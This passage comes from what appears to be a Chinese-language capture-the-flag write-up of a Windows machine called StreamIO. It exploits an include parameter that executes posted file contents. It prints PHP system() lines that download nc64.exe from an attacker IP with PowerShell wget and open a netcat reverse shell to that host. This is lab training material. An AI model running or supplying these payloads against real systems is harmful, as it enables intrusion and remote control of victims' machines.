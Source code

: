 然后下面的内容就是前面所看到的，加载了所有的电影，用户，成员，并且可以执行删除操作

代码最后还有一个include参数的命令执行，读取post提交参数的文件内容，然后执行文件内容，这里利用恶意文件就可以命令执行

![image-20250516174144947](./StreamIO-Windows/image-20250516174144947.png)

当include参数为index.php时输出ERROR，测试一下利用方式是否正确，当post提交index.php是页面最后确实回回显了ERROR，说明利用方式正确

![image-20250516174245655](./StreamIO-Windows/image-20250516174245655.png)

然后构造恶意文件，尝试读取，注意文件保存的路径和引用路径需要用双斜线，单斜线无法保存和引用，但是不明白为什么dir的时候单斜线就可以

```
system("powershell -c wget http://10.10.16.2:8001/nc64.exe -outfile \\Windows\\Temp\\nc64.exe");
system("dir C:\Windows\Temp");
system("C:\\Windows\\Temp\\nc64.exe -e powershell 10.10.16.2 4000");

```
